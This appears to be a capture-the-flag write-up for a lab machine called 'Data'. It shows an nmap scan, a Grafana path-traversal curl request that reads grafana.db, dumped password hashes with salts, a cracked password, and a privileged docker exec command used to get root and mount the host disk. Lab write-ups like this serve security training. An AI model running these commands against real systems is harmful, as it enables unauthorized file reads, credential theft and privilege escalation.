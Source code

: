 ```yaml
---
title: "Data"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#Docker
Scan :
```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a79f80cce39c3fc4d69de8efb377142b (RSA)
|   256 f5ab5249cacfddc6cd61bdbdefbf18b4 (ECDSA)
|_  256 5e63f3d67f5c89df77eb2aac3154f8b2 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:25:24 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:24:54 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 21 Jul 2024 19:24:59 GMT
|_    Content-Length: 0
```

Cve Path traversal --> 
```sh
curl 'http://10.10.81.63:3000/public/plugins/barchart/../../../../../../../../../var/lib/grafana/grafana.db' --path-as-is --output grafana.db
```

```sh
Boris :

dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8

salt :LCBhdtJWjl

rands :mYl941ma8w

---------------------------------------------------------------------------------

Admin : 

7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8

salt : YObSoLj55S

rands : hLLY6QQ4Y6
```

- I type : `convert grafana hash to hashcat format` and got a script that does the job :
https://github.com/iamaldi/grafana2hashcat
- Creds :
 ```sh
boris:beautiful1
```
User: VL{fbc4248a6ec4f7936b92ec76ad0cb654}

- We can run docker exec as sudo , as we can imagine grafana is running in a docker so we can basically grab thanks to the lfi the container id and try to grab a shell as root  with all privilege . We can simply mnt the main disk on the docker and read the flag .

- Here is the command : 
```sh
sudo /snap/bin/docker exec --privileged --user 0 -i -t e6ff5b1cbc85 /bin/bash
```

- Next time don't forget to check the docs

https://github.com/ivanversluis/pentest-hacktricks/blob/master/linux-unix/privilege-escalation/docker-breakout.md
- Root : VL{37c930a3b8b53457d080b0a6f033bc16}
